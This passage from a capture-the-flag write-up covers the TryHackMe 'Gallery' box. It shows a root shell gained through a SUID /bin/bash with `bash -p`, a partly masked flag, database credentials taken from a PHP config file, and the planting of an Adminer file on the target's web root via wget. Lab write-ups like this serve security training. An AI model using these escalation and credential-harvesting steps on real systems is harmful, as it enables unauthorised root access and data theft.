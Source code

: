<img src="./images/nano.png">

```

mike@gallery:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash

```
Now we can run `/bin/bash -p` command to get the shell as root.

```
mike@gallery:~$ /bin/bash -p
bash-4.4# whoami
root
``` 

root.txt
```
THM{ba87e0dfe5903adf#####################}
```

<br>

# AdMiner

Here we need admin password hash to submit to THM

For this we need username, password, database name.
Checking the file `/var/www/html/gallery/initialize.php` we can see these creds

```
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
```

So to get it we can use `mysql` on machine.
But here I have used [Adminer](https://github.com/vrana/adminer/releases/download/v4.8.1/adminer-4.8.1.php) which is a GUI for SQL DataBase in a single file.

I have hosted this file on my http server and used wget to tranfer it to `/var/www/html` directory
Then I have accessed this from the webpage
